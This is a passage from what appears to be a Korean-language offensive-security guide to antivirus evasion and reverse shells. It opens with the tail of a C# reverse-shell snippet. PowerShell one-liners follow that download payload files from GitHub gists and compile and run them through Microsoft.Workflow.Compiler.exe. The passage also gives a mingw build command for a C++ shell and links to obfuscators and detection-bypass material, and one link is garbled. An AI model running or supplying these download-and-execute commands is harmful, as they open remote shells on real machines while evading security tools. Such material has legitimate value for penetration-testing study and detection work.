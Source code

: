 ```csharp
streamWriter.Flush();
}
catch (Exception err) { }
}
}

}
}
```
### C# 컴파일러 사용
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```
[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

자동 다운로드 및 실행:
```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```
{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

C# obfuscators 목록: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++
```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)